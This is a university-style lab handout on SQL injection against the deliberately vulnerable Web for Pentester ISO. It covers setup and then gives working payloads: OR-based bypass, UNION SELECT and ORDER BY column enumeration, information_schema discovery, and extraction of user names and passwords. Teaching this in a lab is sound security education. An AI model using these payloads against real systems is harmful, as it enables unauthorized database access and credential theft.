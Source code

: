 # **SQL Injection Lab Assignment**  

### **Prerequisite**: Installation of Web for Pentester  
Before starting the lab, ensure that you have **Web for Pentester** installed on your system. Follow these steps to install it on Kali Linux:  

---

## **Installation Instructions**  

### **Kali Linux Credentials**:  
- **Username**: root  
- **Password**: toor  

### **Network Configuration**:  
1. Ensure that all systems are on the same network.  
2. If you are using your own equipment, **do not use a bridge connection**. This would place the system directly on the network your workstation is attached to.  

### **Mount the Web for Pentester ISO**:  
1. **Stop the LiveISO server** (Power OFF).  
2. Click on **Mount CDROM**.  
3. Select the appropriate options as shown in your installation guide (screenshots can be provided if needed).  

### **Boot to the Web for Pentester ISO**:  
1. Start the LiveISO server and boot from the Web for Pentester ISO file (**no login required**).  

### **Determine the IP Address**:  
Once the system boots, determine the IP address of the Pentester Lab system and record it here:  
**IP Address**: ______  

---

## **Objective**  
This lab aims to help students understand **SQL injection vulnerabilities**, how they can be exploited, and the impact of these attacks on database-driven applications.  

---

## **Using Kali Linux (or Another Server) as a Client**  

### **1. Open a Terminal**  
Launch a terminal in your Kali Linux environment.  

### **2. Determine Your Network Configuration**  
Ensure that your Kali Linux (or any other server) is connected to the same network as the Web for Pentester ISO server.  

### **3. Ping the ISO Server**  
Use the `ping` command to confirm connectivity:  
```bash
ping <Pentester Lab IP Address>
```  

### **4. Access the Web Application**  
1. Open **Firefox** (or any web browser) in your Kali Linux environment:  
   ```
   firefox &
   ```  
2. In the address bar, enter the IP address of the Pentester Lab server:  
   ```http://<Pentester Lab IP Address>```  

   
### **5. Start Exploring**  
Familiarize yourself with the web application hosted on the ISO server. This will be your **testing ground** for SQL injection techniques.  

---

## **SQL Injection Techniques**  

**Goto the first exercise**


### **1 Basic SQL Injection Using `OR`**  

#### **Expected SQL Query**:  
**Original Query**:  
```
SELECT id, name, age FROM table WHERE name='root'
```  
**Injected Query**:  
```
SELECT id, name, age FROM table WHERE name='root' OR '1'='1'
```  
**Result**: This returns all records in the table.  

#### **Payload/URL Format**:  
**Payload with URL encoding**:  
```
uri?name=root' OR '1'='1' %23
```  
**Expected SQL**:  
```
SELECT id, name, age FROM table WHERE name='root' OR '1'='1' #'
```  

---

### **2 Using `UNION SELECT` to Combine Queries**  

#### **Injected URL**:  
**Payload**:  
```
url?name=root' UNION SELECT null %23
```  
**Expected SQL**:  
```
SELECT id, name, age FROM table WHERE name='root' UNION SELECT null #'
```  
**Result**: This returns nothing because the column numbers must match.  

#### **Determining Column Numbers**:  
- **Testing with Nulls**:  
  ```
  SELECT id, name, age FROM table WHERE name='root' UNION SELECT null, null, null %23
  ```  
- **Testing with More Columns**:  
  ```
  SELECT id, name, age FROM table WHERE name='root' UNION SELECT null, null, null, null, null %23
  ```  
- **Successful Injection**: After determining the number of columns, students can inject real data:  
  ```
  SELECT id, name, age FROM table WHERE name='root' UNION SELECT 1, 'goksel', 30
  ```  

---

### **3 Using `ORDER BY` to Find Column Numbers**  

#### **Testing Column Numbers**:  
- **Invalid Column**:  
  ```
  url?name=root' ORDER BY 6 %23
  ```  
- **Valid Column**:  
  ```
  url?name=root' ORDER BY 5 %23
  ```  

---

### **4 Extracting System Database Information**  

#### **Querying Database Version**:  
**Payload**:  
```
url?name=root' UNION SELECT 1, version(), 3, 4, 5 %23
```  
**Expected SQL**:  
```
SELECT id, name, age FROM table WHERE name='root' UNION SELECT 1, version(), 3, 4, 5 #'
```  

#### **Getting Database Name**:  
**Payload**:  
```
url?name=root' UNION SELECT 1, database(), 3, 4, 5 %23
```  

#### **Querying Table Information**:  
**Payload for Tables**:  
```
url?name=root' UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables WHERE table_schema=database() %23
```  

#### **Querying Column Information**:  
**Payload for Columns**:  
```
url?name=root' UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='users' %23
```  

#### **Extracting User Credentials**:  
**Injected URL**:  
```
url?name=root' UNION SELECT name, passwd, 3, 4, 5 FROM users %23
```  
